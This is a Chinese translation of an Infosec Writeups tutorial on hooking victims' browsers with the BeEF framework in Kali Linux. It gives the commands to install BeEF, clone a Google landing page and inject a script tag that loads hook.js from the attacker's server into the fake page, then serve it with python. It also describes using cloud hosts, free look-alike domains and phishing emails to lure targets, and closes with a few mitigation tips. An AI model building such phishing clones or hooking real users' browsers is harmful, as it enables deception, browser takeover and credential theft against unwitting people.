








# 黑客如何用一个链接黑掉你

> 原文：<https://infosecwriteups.com/how-the-hacker-hack-you-just-with-a-link-f087a806e35?source=collection_archive---------1----------------------->

## 用浏览器黑客指南


克林特·帕特森在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

一个著名的工具就是牛肉。Browser Exploit Framework 或简称 BeEF 是一个允许您制作包含 JavaScript 的受控网页的工具。您将能够根据打开您页面的特定客户端来更改内容。

## 如何在 Kali Linux 中安装 BeEF

你可以用 apt 命令安装它。

```
sudo apt install beef-xss
```

安装完成后，检查应用程序中的 beef



然后点击**牛肉开始，**点击后，终端会打开，提示您输入牛肉的 Web UI 的新密码，并复制钩子粘贴到山寨网站。



大约 5 秒钟后，您的浏览器将自动打开 Web 用户界面，



用**牛肉登录:<你的密码>。**

## 用 BeEF 代码注入设置一个 google 的克隆

我从这个 github repo->[https://github.com/anirudhbelwadi/Google-Landing-Page](https://github.com/anirudhbelwadi/Google-Landing-Page)中克隆了一个谷歌登陆页面

```
git clone [https://github.com/anirudhbelwadi/Google-Landing-Page.git](https://github.com/anirudhbelwadi/Google-Landing-Page.git)
```

在 head 标签之间用牛肉服务器的 hook.js 修改了**index.html**文件。

```
<script src="http://<IP>:3000/hook.js"></script>
```



并用 python http.server 测试服务器

```
python3 -m http.server 80
```



打开浏览器，



是的，我们终于有了一个假网站。

当我登录 BeEF Web UI 时，假的登录页面运行良好。



## 该进攻了

黑客通常使用云来进行这种攻击，因为他们有一个公共 IP 地址。然后，他们只是注册免费域名，使之像合法的。



## 如何减轻这种攻击

以下是预测这种攻击的一些提示:

*   千万不要相信任何链接。
*   使用 JavaScript 拦截器加载项
*   当您想要输入任何凭证时，请务必检查 URL
*   千万不要相信公共 WIFI

## 结论

牛肉比我之前的解释有用。在同一个网络中，攻击者可以利用注入的 hook.js 欺骗合法的 URL，这种方法被称为 MITM(中间人)。
著名的手法是制作一个假网站和假域名，然后给你发一封钓鱼邮件。

小心并保持安全。

Infosec Writeups 团队刚刚完成了我们的第一次虚拟网络安全会议和网络活动。我们有 16 位出色的演讲者，他们主持了非常有价值和鼓舞人心的会议。要查看所有 16 场讲座的发言人和主题列表，请点击此处。

[](https://iwcon.live/) [## IWCon2022 — Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)